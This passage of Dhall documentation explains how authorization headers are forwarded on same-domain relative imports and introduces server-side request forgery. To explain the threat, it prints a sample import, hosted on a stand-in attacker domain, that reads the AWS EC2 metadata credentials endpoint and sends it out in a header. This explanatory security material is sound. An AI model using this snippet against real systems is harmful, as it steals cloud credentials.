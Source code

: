 ... then the interpreter will expand `./natural.dhall` to
`https://example.com/natural.dhall`.  This feature allows expressions with
relative imports to continue to function when hosted from a web service.

However, this feature also requires support for automatically forwarding any
custom headers to expressions imported via relative imports.  For example, if
you import an expression from a private GitHub repository, like this:

```dhall
https://raw.githubusercontent.com/yourCompany/somePrivateRepository/master/someExpression.dhall
    using [ { header = "Authorization", value = "token ${env:GITHUB_TOKEN as Text}" } ]
```

... and `https://.../someExpression.dhall` contains a relative import of
`./anotherExpression.dhall` then:

* the interpreter will canonicalize the relative import
  `./anotherExpression.dhall` to the fully qualified import
  `https://raw.githubusercontent.com/yourCompany/somePrivateRepository/master/anotherExpression.dhall`
* the interpreter will make an HTTPS request for
  `https://raw.githubusercontent.com/yourCompany/somePrivateRepository/master/anotherExpression.dhall`
  using the same `Authorization` header containing the user's GitHub API token

This is the Dhall version of the "same origin policy".  Dhall expressions hosted
within a domain can reuse headers that were supplied for any other expression
residing in the same domain.  This feature allows expressions with relative
imports to continue to function when protected by a service that requires
authorization.

Imported expressions cannot transfer sensitive headers in this way to other
domains.  Custom headers are only transferred for relative imports, which can
only reference expressions from the same domain.  The only way for an expression
imported from one domain to import an expression from a different domain is
through a non-relative fully qualified import to that other domain.  Such a
fully qualified import to another domain resets the headers, preventing them
from leaking across domains.

## Server-side request forgery

What if you imported an expression from `https://badguy.com/pleaseImportMe.dhall` which
contained the following contents:

```dhall
https://badguy.com/iRecordHeaders.dhall
    using
    [ { header = "Credentials"
      , value = http://169.254.169.254/latest/meta-data/iam/security-credentials/role as Text
      }
    ]
```

This would be an example of "server-side request forgery", which attempts
to trick the client into making an unexpected request for sensitive data on
behalf of the malicious server.  The above URL is a sensitive endpoint that
AWS EC2 instances can use to obtain sensitive security credentials but the
endpoint is not meant to be publicly available.


[danluu]: https://danluu.com/postmortem-lessons/
[django]: https://docs.djangoproject.com/en/2.0/topics/settings/
[hcl]: https://www.terraform.io/docs/configuration/syntax.html
[jsonnet]: https://jsonnet.org/
[json-schema]: https://json-schema.org/
[json-tutorial]: https://github.com/dhall-lang/dhall-lang/wiki/Getting-started:-Generate-JSON-or-YAML
[programmable]: https://github.com/dhall-lang/dhall-lang/wiki/Programmable-configuration-files
[sass]: https://sass-lang.com/
[sbt]: https://www.scala-sbt.org/
[webpack]: https://webpack.js.org/configuration/configuration-languages/
[total]: https://en.wikipedia.org/wiki/Total_functional_programming
[xss]: https://en.wikipedia.org/wiki/Cross-site_scripting